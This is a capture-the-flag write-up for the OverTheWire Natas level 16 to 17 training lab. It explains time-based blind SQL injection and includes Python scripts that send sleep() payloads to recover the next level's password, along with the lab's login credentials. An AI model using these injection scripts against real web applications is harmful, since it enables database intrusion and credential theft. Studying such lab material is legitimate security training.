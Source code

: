 # Level 16 → Level 17

## Details
Username: `natas17`<br />
Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`<br />
URL:      http://natas17.natas.labs.overthewire.org

## Solution

<img src="./0.png"></img>

<img src="./1.png"></img>

Very similar to the stage **level14 to level15** but the difference is that there is no output for control needs. If so, the only thing that will be available to us now is - time. We will create a query so that if the password is in the correct format, we will wait a few seconds. By the time the answer is returned we will know what happened and act accordingly.

It took me a while to get the right string, and finally it turned out that `natas18" and sleep(10);-- -` works correctly. That means the answer will be delayed for about 10 seconds.

For example, the input `natas18" and password like binary "%4%" and sleep(10);-- -` will return after 10 seconds, while `natas18" and password like binary "%3%" and sleep(10);- - -` will return after a moment. This means that the digit '4' will appear in the password, and the digit '3' will not appear. That is, if when running the query we reached `sleep()`, that means we passed all the conditions of the Boolean AND operator.

We will now create a code that identifies all the characters that appear in the password (so as not to waste unnecessary time during its discovery later):

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

characters_in_use = []
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_time_based.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))
```

This is the resoult:

<img src="./2.png"></img>

Now we can run the brute force on the relevant characters only:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"
relevant_characters = ['4','6','8','a','g','k','n','o','q','u','v','w','x','D','E','F','G','J','L','N','P','Q','U','V','Z']
password = ""
password_length = 32

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

for _ in range(password_length):
    for c in relevant_characters:
        res = get(url=URL.format(sql_injection_time_based.format(password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            password += c
            print("Password: " + password.ljust(password_length, "_"))
            break
```

<img src="./3.png"></img>

And this is the password.


## Password for the next level:
```

```

## Appendix

The following code sums it all up. Copy it into a Python file and run it. Enjoy:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
natas18_password = ""
password_length = 32
characters_in_use = []

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_recover_charecters = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"
sql_injection_recover_password = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

# Recover relevant characters
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_recover_charecters.format(c)), auth=AUTH)

    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))

# Revover the password
for _ in range(password_length):
    for c in characters_in_use:
        res = get(url=URL.format(sql_injection_recover_password.format(natas18_password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            natas18_password += c
            print("Password: " + natas18_password.ljust(password_length, "_"))
            break

print("Password for natas18 is: " + natas18_password)
```
